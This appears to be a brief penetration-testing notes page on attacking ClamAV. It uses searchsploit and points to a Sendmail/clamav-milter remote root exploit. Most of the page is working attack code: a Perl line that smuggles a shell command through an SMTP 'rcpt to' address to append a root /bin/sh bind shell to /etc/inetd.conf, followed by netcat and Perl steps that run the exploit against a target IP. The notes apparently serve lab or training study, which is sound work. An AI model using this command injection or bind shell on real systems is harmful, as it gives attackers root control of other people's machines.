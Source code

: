 # ClamAV

### Search vulnerability &#x20;

```
searchsploit clamav
```

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

Sendmail w/ clamav-milter Remote Root Exploit [https://www.exploit-db.com/exploits/4761](https://www.exploit-db.com/exploits/4761)

{% code overflow="wrap" %}
```bash
# You can run an arbitrary command after nobody+\"| 

print $sock "rcpt to: <nobody+\"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf\"@localhost>\r\n";
```
{% endcode %}



```bash
# Netcat listener
kali> nc 192.168.174.42 31337 

# Exploit 
# Modify the perl script and then execute the script
kali> perl 4761.pl 192.168.174.42
```

<figure><img src="../../.gitbook/assets/image5.png" alt=""><figcaption></figcaption></figure>
